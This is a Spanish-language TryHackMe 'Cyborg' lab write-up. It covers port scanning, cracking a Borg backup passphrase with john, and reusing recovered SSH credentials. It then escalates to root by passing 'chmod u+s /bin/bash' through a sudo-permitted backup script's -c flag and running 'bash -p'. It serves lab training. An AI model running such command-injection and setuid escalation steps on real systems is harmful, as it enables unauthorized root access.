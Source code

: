 ```yaml
---
title: "Cyborg Writeup - Try-Hack-Me"
date: 2023-12-07
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets\img\imagenes\Cyborg.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Cyborg banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap 

```python
Nmap scan report for 10.10.154.71
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.84 seconds
```

### Ports:
```python
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### en la pagina podemos encontrar archivos de configuracion que podemos descargar

![img](/assets/img/imagenes/Pasted image 20231107222735.png)
descargamos esto para echar un vistazo.

### parece que estamos ante un repositorio. debemos descargarlo configurarlo y montarlo para saber que hay dentro.

### instalacion

```python
	sudo apt install borgbackup   
```

### montamos el directorio de la siguiente manera:

```python
borg mount /home/kali/Desktop/thm/Cyborg/home/field/dev/final_archive /home/kali/Desktop/thm/Cyborg/repository
```
al montar el directorio nos pide una clave la cual buscaremos con john.

![img](/assets/img/imagenes/Pasted image 20231107231024.png)
buscaremos la clave en el archivo que conseguimos en la pagina llamado passwd utilizaremos john para intentar sacar la clave
![img](/assets/img/imagenes/Pasted image 20231107231157.png)

### clave

```python
squidward
```

### al montar el repositorio navegamos entre las carpetas y conseguimos algo interesante:

![img](/assets/img/imagenes/Pasted image 20231107232642.png)

### Credenciales:

```python
alex : S3cretP@s3
```
conseguimos lo que parece ser credenciales del usuario alex. vamos a mirar el pueto 22 SSH las credenciales de alex que hemos conseguido
![img](/assets/img/imagenes/Pasted image 20231107233123.png)

### escalar privilegios: ejecutamos sudo -l 

![img](/assets/img/imagenes/Pasted image 20231108001114.png)
parece que todo los usuarios tienen todos los permisos sobre /etc/mp3/backups/backup.sh
vamos hacer un cat para ver que hace este archivo
![img](/assets/img/imagenes/Pasted image 20231108001510.png)
![img](/assets/img/imagenes/Pasted image 20231108001557.png)

### parece que el la primera parte del script define una flag y la llama c y al final del script le dice que cmd=$( $ command) 

al parecer todo lo que le indiquemos al script con la flag -c sera igual a comandos ejecutados por cmd. asi que usaremos esto para llamar una bash como root con el siguiente codigo.

llamamos al scritp como sudo de la siguiente forma.

```python
	sudo /etc/mp3backups/backup.sh 
```

llamamos la bandera c y aprovecharemos esto para darle permisos a la bash como usuario root. para despues llamarla. de la siguiente manera.

```python
	sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```

### hacemos bash -p

![img](/assets/img/imagenes/Pasted image 20231108002744.png)
hemos cambiado los permisos de la bash para que se ejecute como sudo y cuando hacemos bash -p nos da una bash como root
### WE ARE ROOT